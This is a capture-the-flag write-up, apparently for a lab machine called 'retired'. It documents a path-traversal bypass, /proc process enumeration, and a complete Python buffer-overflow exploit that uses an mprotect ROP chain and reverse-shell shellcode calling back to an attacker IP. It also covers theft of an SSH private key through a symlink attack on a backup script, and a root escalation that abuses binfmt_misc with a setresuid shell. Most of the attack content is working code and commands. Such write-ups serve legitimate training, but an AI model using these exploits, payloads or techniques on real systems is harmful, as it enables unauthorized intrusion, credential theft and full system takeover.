


Exploitation Summary
Exploitation process: The target machine exposes a web application with a
vulnerable page parameter that allows arbitrary file reading through path traversal
bypass. By circumventing the sanitization function, I was able to read the source code of PHP
files and discover a binary listening on port 1337 that processes license files.
Analyzing the activate_license binary revealed a buffer overflow vulnerability in
the message length handling. Despite NX, PIE, and ASLR protections being enabled, I crafted a
ROP chain using mprotect to make the stack executable, then used a JMP RSP gadget
to execute shellcode, obtaining initial access as www-data.
For privilege escalation to the dev user, I exploited a symbolic link vulnerability
in the web backup script that runs periodically. By creating a symlink to
/home/dev/.ssh/id_rsa, I was able to extract the private SSH key from the
generated backup file.
Finally, to escalate to root, I abused the reg_helper binary with the
CAP_DAC_OVERRIDE capability, which allows writing to
/proc/sys/fs/binfmt_misc/register. By registering a custom binary format handler
with the "C" flag (execute with original file permissions), I hijacked the execution of SUID
binaries to spawn a root shell.
Technologies/Exploits: Path traversal filter bypass, buffer overflow with ROP
chain, mprotect exploitation, symbolic link arbitrary file read, binfmt_misc
registration abuse with CAP_DAC_OVERRIDE.
Initial Reconnaissance
Starting with an nmap scan to identify open ports and running services on the target:

The scan reveals an HTTP server on port 80 and SSH on port 22. The page parameter in
the URL immediately looks suspicious and worth investigating.
Web Enumeration
The web application advertises various services:
Running whatweb reveals important technology information:
whatweb http://10.129.227.96The output shows:
http://10.129.227.96 [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.129.227.96], RedirectLocation[/index.php?page=default.html], nginx
http://10.129.227.96/index.php?page=default.html [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[nginx], IP[10.129.227.96], PHP, Script, Title[Agency - Start Bootstrap Theme], nginxThis reveals PHP and nginx as key technologies to keep in mind.
Directory Fuzzing
Performing directory fuzzing reveals an interesting page, beta.html:
css (Status: 301) [Size: 162] [--> http://10.129.227.96/css/]
js (Status: 301) [Size: 162] [--> http://10.129.227.96/js/]
assets (Status: 301) [Size: 162] [--> http://10.129.227.96/assets/]
beta.html (Status: 200) [Size: 4144]
index.php (Status: 302) [Size: 0] [--> /index.php?page=default.html]
default.html (Status: 200) [Size: 11414]I can also access this page through the potentially vulnerable page parameter:
http://10.129.227.96/index.php?page=beta.htmlHowever, attempting direct path traversal is blocked, suggesting some filtering is in place.
File Upload Functionality
The beta page contains interesting file upload functionality:

Testing the upload with a webshell shows it makes a POST request to
activate_license.php, which returns a blank page with no visible response. Directory
fuzzing doesn't reveal any obvious upload directory where files might be stored.
Source Code Discovery
Investigating the page parameter further, I discover that requesting PHP files returns
their source code rather than executing them:
curl http://10.129.227.96/index.php?page=activate_license.phpThis reveals the license processing logic:
<?php
if(isset($_FILES['licensefile'])) {
$license = file_get_contents($_FILES['licensefile']['tmp_name']);
$license_size = $_FILES['licensefile']['size'];
$socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
if (!$socket) { echo "error socket_create()\n"; }
if (!socket_connect($socket, '127.0.0.1', 1337)) {
echo "error socket_connect()" . socket_strerror(socket_last_error()) . "\n";
}
socket_write($socket, pack("N", $license_size));
socket_write($socket, $license);
socket_shutdown($socket);
socket_close($socket);
}
?>This reveals a service running on port 1337 that processes these license files.
Index.php Source Analysis
Requesting the main index.php source code reveals the sanitization logic:
<?php
function sanitize_input($param) {
$param1 = str_replace("../","", $param);
$param2 = str_replace("./","", $param1);
return $param2;
}
$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
$page = sanitize_input($page);
} else {
header('Location: /index.php?page=default.html');
}
readfile($page);
?>This reveals several important findings:
- It's using
readfile()- an arbitrary file read vulnerability, not LFI - The path traversal filter is insecure and can be bypassed
- There's an Execute After Redirect (EAR) vulnerability - no
die()statement after the redirect
Path Traversal Filter Bypass
The sanitization function is vulnerable because it performs single-pass replacements. For example,
the string ...../ becomes:
- After
str_replace("../","",$param):..// - After
str_replace("./","",$param1):../
Testing this bypass to read /etc/hostname:
curl http://10.129.10.252/index.php?page=js/.....///.....///.....///.....///.....///.....///.....///etc/hostnameResponse:
retiredExecute After Redirect (EAR) Exploitation
Due to the missing die() statement, readfile($page) executes even when the
regex validation fails and a redirect is triggered. With curl, this is straightforward since it
doesn't follow redirects by default:
curl http://10.129.227.96/index.php?page=../../../../../../etc/passwd | grep bashThis returns user information:
root:x:0:0:root:/root:/bin/bash
vagrant:x:1000:1000::/vagrant:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bashThis same technique works with Burp Suite by intercepting and modifying the redirect response.
System Reconnaissance via File Read
Reading the nginx configuration reveals the web root:
curl http://10.129.10.252/index.php?page=../../../../../../etc/nginx/sites-enabled/defaultserver {
listen 80 default_server;
listen [::]:80 default_server;
root /var/www/html;
index index.php index.html index.htm;
server_name _;
location / {
try_files $uri $uri/ =404;
}
location ~ \.php$ {
include snippets/fastcgi-php.conf;
fastcgi_pass unix:/var/run/php/php7.4-fpm.sock;
}
}Discovering Open Ports
Reading /proc/net/tcp reveals the local open TCP ports:
curl http://10.129.10.252/index.php?page=../../../../../../proc/net/tcpThe important entry:
2: 0100007F:0539 00000000:0000 0A 00000000:00000000 00:00000000 00000000 33Converting from hexadecimal: 0100007F:0539 → 127.0.0.1:1337
This confirms the service mentioned in activate_license.php.
Process Enumeration
I created a bash script to enumerate processes via the /proc/{PID}/cmdline interface:
#!/bin/bash
TARGET="http://10.129.10.252/index.php?page=../../../../../../.."
OUTPUT_DIR="lfi_enum"
mkdir -p "$OUTPUT_DIR"
echo "[*] Starting LFI process enumeration..."
lfi_get() {
curl -s "${TARGET}$1" 2>/dev/null
}
for pid in {1..500}; do
cmdline=$(lfi_get "/proc/$pid/cmdline" | tr '\0' ' ' | strings)
if [ ! -z "$cmdline" ] && [ "$cmdline" != "Not Found" ]; then
echo "[+] PID $pid: $cmdline"
echo "$cmdline" > "$OUTPUT_DIR/pid_${pid}_cmdline.txt"
if [[ "$cmdline" == *"python"* ]] || [[ "$cmdline" == *"node"* ]] || [[ "$cmdline" == *"1337"* ]]; then
echo " [!] Interesting process found!"
lfi_get "/proc/$pid/exe" > "$OUTPUT_DIR/pid_${pid}_exe"
lfi_get "/proc/$pid/environ" | tr '\0' '\n' > "$OUTPUT_DIR/pid_${pid}_environ.txt"
cwd=$(lfi_get "/proc/$pid/cwd")
echo " [*] CWD: $cwd"
fi
fi
sleep 0.1
done
echo "[*] Enumeration complete. Check $OUTPUT_DIR/ for results"After some time, the script discovers a process related to port 1337:
[*] Starting LFI process enumeration...
[+] PID 418: /usr/bin/activate_license 1337
[!] Interesting process found!
[*] CWD:
[*] Enumeration complete. Check lfi_enum/ for resultsThe binary is located at /usr/bin/activate_license, which I download for analysis.
Process Environment Information
Reading the process environment provides additional context:
curl http://10.129.10.252/index.php?page=../../../../../../proc/418/environLANG=C.UTF-8PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOME=/var/wwwLOGNAME=www-dataUSER=www-dataINVOCATION_ID=72de3b3f08b340dea22ca4cea78077ccJOURNAL_STREAM=8:12309Binary Analysis - Buffer Overflow Discovery
Analyzing the binary with Ghidra reveals a critical buffer overflow vulnerability in the message length handling:
char buffer[512];
// ...
msglen = ntohl(msglen);
read(sockfd, buffer, (ulong)msglen);The problem: msglen is read from the network without validation, allowing an attacker to
specify a size larger than the 512-byte buffer.
The binary also executes SQL operations and saves a license.sqlite file in
/var/www. Downloading and examining it shows:
sqlite> select * from license;
1|AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAThis confirms buffer overflow testing has already occurred on the system.
Binary Security Analysis
Checking the binary's security protections:
checksec --file=activate_license --format=csvFull RELRO,No Canary found,NX enabled,PIE enabled,No RPATH,No RUNPATH,Symbols,No,0,4,activate_licenseKey findings:
- No Stack Canaries - Buffer overflow exploitation is possible
- NX Enabled - Cannot execute code directly from the stack
- PIE Enabled - Addresses are randomized
- Full RELRO - GOT/PLT tables are read-only, preventing overwrite attacks
These protections require a ROP-based exploitation approach.
ASLR Status
Checking if Address Space Layout Randomization is enabled:
curl http://10.129.10.252/index.php?page=../../../../../../proc/sys/kernel/randomize_va_space2A value of "2" means full ASLR is enabled, randomizing memory positions of libraries, heap, and stack.
Memory Mappings
I retrieve the process memory map to identify library base addresses, which will be crucial for the ROP chain:
curl http://10.129.227.96/index.php?page=../../../../../../proc/409/mapsKey memory regions (abbreviated output):
55d582e6c000-55d582e71000 r-xp /usr/bin/activate_license
7f31209e2000-7f3120ba3000 r-xp /usr/lib/x86_64-linux-gnu/libc-2.31.so
7f3120ba7000-7f3120cea000 r-xp /usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6
7f3120cf1000-7f3120d1d000 r-xp /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffc2a070000-7ffc2a091000 rw-p [stack]Exploitation Strategy - mprotect ROP Chain
Since NX is enabled, I'll use a ROP chain to call mprotect to make the stack executable,
then jump to shellcode. This approach is faster than building a full execve ROP chain.
First, I download libc-2.31.so from the target and find the mprotect
offset:
readelf -s libc-2.31.so | grep ' mprotect' 1225: 00000000000f8c20 33 FUNC WEAK DEFAULT 14 mprotect@@GLIBC_2.2.5Understanding mprotect Parameters
The mprotect function signature:
int mprotect(void *addr, size_t len, int prot);In x86-64 calling convention, these parameters map to:
- RDI (Register Destination Index) - first argument (address)
- RSI (Register Source Index) - second argument (length)
- RDX (Register Data) - third argument (protection flags)
Finding ROP Gadgets
Using ropper to find gadgets in libc-2.31.so:
ropper -f libc-2.31.so --search "pop rdi"0x0000000000026796: pop rdi; ret;ropper -f libc-2.31.so --search "pop rsi"0x000000000002890f: pop rsi; ret;ropper -f libc-2.31.so --search "pop rdx"0x00000000000cb1cd: pop rdx; ret;Finding JMP RSP Gadget
Unfortunately, libc-2.31.so doesn't contain a JMP RSP gadget. I download
libsqlite3.so.0.8.6 where this gadget exists:
curl http://10.129.227.96/index.php?page=../../../../../../usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6 -o libsqlite3.so.0.8.6
ropper -f libsqlite3.so.0.8.6 --search "jmp rsp"[INFO] File: libsqlite3.so.0.8.6
0x00000000000d431d: jmp rsp;Base Addresses from Memory Map
Recording the important base addresses from the earlier memory map:
libsqlite3.so.0.8.6: 0x7f3120ba7000
libc-2.31.so: 0x7f31209e2000
Stack start: 0x7ffc2a070000
Stack end: 0x7ffc2a091000Finding the Offset
I need to determine the exact offset where the buffer overflow occurs. First, I run the binary locally and attach gdb:
./activate_license 1337gdb -q -p $(pidof activate_license)Configure gdb to follow child processes (the binary forks for each connection):
gdb-peda$ set follow-fork-mode child
gdb-peda$ cUsing pwntools to generate and send a cyclic pattern:
from pwn import *
io = remote('127.0.0.1', 1337)
pattern = cyclic(600)
io.send(p32(len(pattern), endian='big'))
io.send(pattern)
io.close()In gdb, the program crashes at the return instruction:
=> 0x5629eae645c0 <activate_license+643>: ret
Stopped reason: SIGSEGVChecking the stack pointer to find the pattern:
gdb-peda$ x/gx $rsp
0x7fff69904f38: 0x6661616766616166Calculating the offset:
python3 -c "from pwn import *; print('Offset:', cyclic_find(0x6661616766616166))"Offset: 520Generating Shellcode
Creating a reverse shell payload with msfvenom:
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.172 LPORT=443 -f py -v scPayload size: 74 bytes
Final size of py file: 376 bytesComplete Exploit Script
With all components ready, I create the final exploit that makes a POST request to
activate_license.php:
#!/usr/bin/env python3
import requests
import struct
# Base addresses from /proc/PID/maps
libc_base = 0x7f31209e2000
libsql_base = 0x7f3120ba7000
stack_start = 0x7ffc2a070000
stack_end = 0x7ffc2a091000
TARGET_IP = "10.129.227.96"
URL = f'http://{TARGET_IP}/activate_license.php'
# Reverse shell shellcode
sc = b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
sc += b"\x48\x97\x48\xb9\x02\x00\x01\xbb\x0a\x0a\x0e\xac"
sc += b"\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05"
sc += b"\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
sc += b"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
sc += b"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6"
sc += b"\x0f\x05"
def p64(num):
return struct.pack("<Q", num)
# ROP chain components
mprotect = p64(libc_base + 0xf8c20)
pop_rdi = p64(libc_base + 0x26796)
pop_rsi = p64(libc_base + 0x2890f)
pop_rdx = p64(libc_base + 0xcb1cd)
jmp_rsp = p64(libsql_base + 0xd431d)
stack_size = stack_end - stack_start
# Build the exploit buffer
buf = b'A' * 520 # Fill up to return address
buf += pop_rdi + p64(stack_start) # RDI = stack address
buf += pop_rsi + p64(stack_size) # RSI = stack size
buf += pop_rdx + p64(7) # RDX = rwx permissions (7)
buf += mprotect # Call mprotect
buf += jmp_rsp # Jump to stack
buf += sc # Reverse shell shellcode
# Send exploit via license file upload
resp = requests.post(URL, files={'licensefile': buf})Setting up a netcat listener:
sudo nc -lvnp 443Running the exploit successfully returns a shell as www-data:
listening on [any] 443 ...
connect to [10.10.14.172] from (UNKNOWN) [10.129.227.96] 56104
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@retired:/var/www/html$Internal Enumeration
After stabilizing the shell, I begin internal reconnaissance:
id devuid=1001(dev) gid=1001(dev) groups=1001(dev),33(www-data)Looking for files owned by the dev user:
find / -user dev 2>/dev/null/var/www/2026-02-02_23-30-09-html.zip
/var/www/2026-02-02_23-28-09-html.zip
/var/www/2026-02-02_23-29-09-html.zip
/home/devFiles owned by the dev group:
find / -group dev 2>/dev/null/usr/lib/emuemu/reg_helper
/home/devThe backup zip files are interesting. The naming pattern suggests automated backups running every minute with only 3 kept at a time.
Discovering the Backup Script
Searching for the backup script by grepping for the zip filename pattern:
grep -r '\-html.zip' / 2>/dev/null/usr/bin/webbackup:DST="/var/www/$(date +%Y-%m-%d_%H-%M-%S)-html.zip"Examining the backup script:
cat /usr/bin/webbackup#!/bin/bash
set -euf -o pipefail
cd /var/www/
SRC=/var/www/html
DST="/var/www/$(date +%Y-%m-%d_%H-%M-%S)-html.zip"
/usr/bin/rm --force -- "$DST"
/usr/bin/zip --recurse-paths "$DST" "$SRC"
KEEP=10
/usr/bin/find /var/www/ -maxdepth 1 -name '*.zip' -print0 \
| sort --zero-terminated --numeric-sort --reverse \
| while IFS= read -r -d '' backup; do
if [ "$KEEP" -le 0 ]; then
/usr/bin/rm --force -- "$backup"
fi
KEEP="$((KEEP-1))"
doneKey observations:
- The script is owned by root but creates files as the
devuser - It recursively zips
/var/www/html /var/www/htmlis world-writable- The script follows symbolic links when creating the archive
Privilege Escalation to dev - Symlink Attack
Since the backup script follows symbolic links and /var/www/html is writable, I can
create a symlink to dev's SSH private key:
cd /var/www/html
ln -s /home/dev/.ssh/id_rsa leaked_keyls -la leaked_keylrwxrwxrwx 1 www-data www-data 21 Feb 2 23:53 leaked_key -> /home/dev/.ssh/id_rsaMonitoring the directory for changes:
watch -n 1 ls -laAfter about a minute, the symlink disappears (gets removed by the script). Checking the latest backup zip file:
unzip -l /var/www/2026-02-02_23-54-09-html.zip | grep leaked_keyExtracting and viewing the private key:
unzip -p /var/www/2026-02-02_23-54-09-html.zip var/www/html/leaked_keyI copy the SSH private key to my local machine, set proper permissions, and connect:
chmod 600 dev_id_rsa
ssh -i dev_id_rsa dev@10.129.227.96Successfully logged in as dev, I can now retrieve the user flag.
Privilege Escalation to Root - binfmt_misc Abuse
In the dev user's home directory, I find an interesting emuemu directory
containing C source files and a Makefile:
ls -la ~/emuemuExamining the critical file reg_helper.c:
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>
int main(void) {
char cmd[512] = { 0 };
read(STDIN_FILENO, cmd, sizeof(cmd)); cmd[-1] = 0;
int fd = open("/proc/sys/fs/binfmt_misc/register", O_WRONLY);
if (-1 == fd)
perror("open");
if (write(fd, cmd, strnlen(cmd, sizeof(cmd))) == -1)
perror("write");
if (close(fd) == -1)
perror("close");
return 0;
}And the Makefile installation section:
install: $(TARGETS)
@echo "[+] Installing program files"
install --mode 0755 emuemu /usr/bin/
mkdir --parent --mode 0755 /usr/lib/emuemu /usr/lib/binfmt.d
install --mode 0750 --group dev reg_helper /usr/lib/emuemu/
setcap cap_dac_override=ep /usr/lib/emuemu/reg_helper
@echo "[+] Register OSTRICH ROMs for execution with EMUEMU"
echo ':EMUEMU:M::\x13\x37OSTRICH\x00ROM\x00::/usr/bin/emuemu:' \
| tee /usr/lib/binfmt.d/emuemu.conf \
| /usr/lib/emuemu/reg_helperUnderstanding the Vulnerability
Key findings:
reg_helperwrites user input directly to/proc/sys/fs/binfmt_misc/register- This file allows registering custom binary format handlers with the kernel
- The binary has the
CAP_DAC_OVERRIDEcapability, bypassing file permission checks - No special privileges (like sudo) are required to use this program
From the capabilities(7) man page:
CAP_DAC_OVERRIDE: Bypass file read, write, and execute permission checks. (DAC is an abbreviation of "discretionary access control".)
binfmt_misc Registration Format
According to the kernel documentation, the registration format is:
:name:type:offset:magic:mask:interpreter:flagsImportant flags:
- C - Execute with the credentials of the binary (respects SUID bits)
Exploitation Method 1 - Magic Bytes
I'll register a handler based on magic bytes. First, I extract the magic bytes from a SUID binary
like newgrp:
cat /usr/bin/newgrp | xxd -p | head -1 | sed 's/\(..\)/\\x\1/g'\x7f\x45\x4c\x46\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x3e\x00\x01\x00\x00\x00\xd0\x47\x00\x00\x00\x00Next, I create a simple C program to spawn a privileged shell:
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>
int main(void) {
char *const paramList[10] = {"/bin/bash", "-p", NULL};
const int id = 0;
setresuid(id, id, id);
execve(paramList[0], paramList, NULL);
return 0;
}Compiling the privilege escalation binary:
gcc -o /tmp/privesc /tmp/privesc.cRegistering the custom binary format handler:
echo ':pwn:M::\x7f\x45\x4c\x46\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x3e\x00\x01\x00\x00\x00\xd0\x47\x00\x00\x00\x00::/tmp/privesc:C' | /usr/lib/emuemu/reg_helperVerifying the registration:
cat /proc/sys/fs/binfmt_misc/pwnenabled
interpreter /tmp/privesc
flags: OC
offset 0
magic 7f454c4602010100000000000000000003003e0001000000d04700000000Now when I execute any binary matching those magic bytes (like newgrp), the kernel will
instead execute /tmp/privesc with the original file's permissions (SUID root):
newgrproot@retired:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1001(dev)Exploitation Method 2 - File Extension
An alternative approach using file extensions. First, create a symbolic link with a custom extension to a SUID binary:
ln -s /usr/bin/passwd /tmp/exploit.pwnRegister a handler for the .pwn extension:
echo ':pwn2:E::pwn::/tmp/privesc:C' | /usr/lib/emuemu/reg_helperVerifying registration:
cat /proc/sys/fs/binfmt_misc/pwn2enabled
interpreter /tmp/privesc
flags: OC
extension .pwnExecuting the symlink triggers the interpreter with SUID privileges:
/tmp/exploit.pwnroot@retired:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1001(dev)Both methods successfully escalate privileges to root. I can now retrieve the root flag and complete the machine.